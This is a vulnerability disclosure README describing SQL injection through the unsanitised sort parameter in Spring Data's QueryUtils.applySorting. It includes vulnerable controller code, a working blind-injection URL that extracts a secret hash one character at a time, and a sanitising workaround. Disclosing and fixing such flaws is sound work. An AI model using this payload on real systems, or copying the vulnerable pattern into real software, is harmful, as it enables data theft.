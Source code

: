 PoC for SQL injection bug found in Solita Webhack 2016.

* Founders: Niklas Särökaari, Joona Immonen
* Analysis: Arto Santala, Niklas Särökaari, Joona Immonen, Antti Virtanen, Michael Holopainen
* PoC: Antti Ahola, Antti Virtanen

## The problem briefly

Spring data relies on helper class QueryUtils, which does the following:

```
QueryUtils.applySorting("select person from Person person", new Sort("firstName"))
```

Effectively this doesn't validate or escape the string inside Sort properly. This method is not normally
accessed directly by application developers as creating raw queries with plain strings is not a good practice, but
relatively innocent code can inadvertently contain SQL injection because of this. The PoC demonsrates how this
might realistically happen (and did happen).

Many tutorials for Spring Data and Spring JPA explain that it's possible to create sortable queries easily, without actually worrying about SQL in this manner:

```
interface PersonRepository extends PagingAndSortingRepository<Person, Long> {
  
  @Query("SELECT person FROM Person person WHERE " +
      "LOWER(person.firstName) LIKE LOWER(CONCAT('%',:searchTerm, '%')) OR " +
      "LOWER(person.lastName) LIKE LOWER(CONCAT('%',:searchTerm, '%'))")
  List<Person> findBySearchTerm(@Param("searchTerm") String searchTerm, Sort sort);
}
```

The query doesn't contain *ORDER BY* but Spring will handle it, using the aforementioned *applySorting* method. Creating a sortable REST interface is easy:

```
    @RequestMapping("/personfind")
    public Iterable<PersonDTO> personFind(@RequestParam(value="order", defaultValue="firstName") String order,
                                          @RequestParam(value="term" ) String term) {
      Iterable<Person> persons = personRepo.findBySearchTerm(term, new Sort(order));
      // mapping to PersonDTO omitted.
```

Search paramter *term* gets properly sanitized, but parameter *sort* will not be sanitized in this case. 

## How to exploit?

Exploiting is not as straightforward as it would seem, because it depends on multiple factors. The query is not a raw SQL query and tricks like "union all select * from .." may not work. It might be a JPQL-query or HQL query, but still exploitable. See [HQL for pentesting](http://paulsec.github.io/blog/2014/05/05/blind-hql-injection-in-rest-api-using-h2-dbms/) for further ideas.

### A short example:

The search term selects only two records from the database. Ordering by *firstName* yields Huppu,Tuppu. 

The content of a secret hash can be deduced by playing with the order parameter. 
![before](sqlmapping_1.png)

![after](sqlmapping_2.png)

What exactly happens depends on the underlying database. With PostgreSQL 9.2, brute forcing character by character works like this. 

Example injection:
```
http://localhost:8080/personfind?term=uppu&order=(case%20when%20%20substr(secretHash,1,1)=%27E%27%20then%201%20else%202%20end)
```

PostgreSQL query after Spring HQL translation:
```
select person0_.id as id1_1_, person0_.first_name as first_na2_1_, person0_.last_name as last_nam3_1_, person0_.secret_hash as secret_h4_1_ from person person0_ where lower(person0_.first_name) like lower(('%'||$1||'%')) or lower(person0_.last_name) like lower(('%'||$2||'%')) order by case when substr(person0_.secret_hash, 1, 1)='E' then 1 else 2 end asc
```

## Suggestions 

* Spring Data should sanitize the strings encapsulated in the Order class. This might mean that some valid, but weird, definitions would no longer work, but for the majority of programmers this should be the default behavior. And it's possible to introduce a static factory method to create "unsafe Order" for the marginal cases. This might break some of the current applications.

* If Order will not be changed, introduce a static factory method to create "safe Order" and warn programmers that the current best practice is vulnerable and prone to errors.

* Meanwhile, a workaround is to sanitize the order in the application level using something like this:

```
 /**
  * This utility will filter away any characters that are not used in column names,
  * granting immunity to sql injection attacks
  *
  * @param value
  * @return
  */
  private String cleanseString(String value) {
    return value.replaceAll("[^A-Za-z0-9_.]", "");
  }
```

This will break function calls in *order by* (as parenthesis get removed), which may not be suitable for all users.



